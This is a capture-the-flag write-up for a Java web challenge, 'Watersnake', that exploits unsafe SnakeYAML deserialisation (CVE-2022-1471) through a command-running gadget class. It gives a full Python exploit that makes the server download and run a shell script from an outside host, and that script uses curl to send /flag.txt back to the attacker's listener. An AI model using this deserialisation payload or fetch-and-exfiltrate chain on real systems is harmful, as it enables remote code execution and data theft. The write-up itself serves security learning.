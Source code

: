 # [Web] Watersnake

This webapp is written in Java. It allows a user to define a firmware to be updated via a yaml configuration.

There is 1 vulnerability to exploit: the yaml is deserialised from the user input. The library reading it is `org.yaml.snakeyaml.Yaml`, which is vulnerable to [CVE-2022-1471](https://nvd.nist.gov/vuln/detail/CVE-2022-1471): any class can be deserialized.

```java
	@PostMapping("/update")
	public String update(@RequestParam(name = "config") String updateConfig) {
       	InputStream is = new ByteArrayInputStream(updateConfig.getBytes());
       	Yaml yaml = new Yaml();
	    Map<String, Object> obj = yaml.load(is);
		obj.forEach((key, value) -> System.out.println(key + ":" + value));
		return "Config queued for firmware update";
	}
```

In order to exploit it, we need to use a class present in the classpath. Fortunately the class `GetWaterLevel` allows to run system calls

```java
public class GetWaterLevel {
    public static String readFromSensor(String value) throws IOException {
        ProcessBuilder processBuilder = new ProcessBuilder(value.split("\\s+"));
        Process process = processBuilder.start();
        InputStream inputStream = process.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
        StringBuilder output = new StringBuilder();
        String line;
        while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
        }
        try {
            int exitCode = process.waitFor();
            if (exitCode != 0) {
                throw new IOException("[-] Command execution failed with exit code " + exitCode);
            }
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException("[-] Command execution interrupted", e);
        }
        return output.toString();
    }
    public void initiateSensor(String value) {
        try {
			readFromSensor(value);
		} catch (IOException e) {
			System.out.println(e.getMessage());
		}
    }
    public GetWaterLevel(String value) {
        initiateSensor(value);
   }
```

Hence we can run code with something like:
```java
!!com.lean.watersnake.GetWaterLevel ["curl http://1.2.3.4:4444/"]
```

Final exploit is:
```python
from requests import post

lol_sh = """
aaa=$(cat /flag.txt)
curl http://1.2.3.4:4444/aaa=$aaa
"""

endpoint = "http://94.237.55.114:50060"
update_path = "/update"
exploit1 = 'curl -o /tmp/lol.sh http://1.2.3.4:4444/lol.sh'
exploit2 = 'sh /tmp/lol.sh'
payload = {
    "config": '!!com.lean.watersnake.GetWaterLevel ["{}"]'.format(exploit1)
}
response = post(endpoint + update_path, data=payload)
payload = {
    "config": '!!com.lean.watersnake.GetWaterLevel ["{}"]'.format(exploit2)
}
response = post(endpoint + update_path, data=payload)
```

From the listener on `1.2.3.4:4444`, we receive the callback containing the flag.

![flag](./img/web_snake.png)
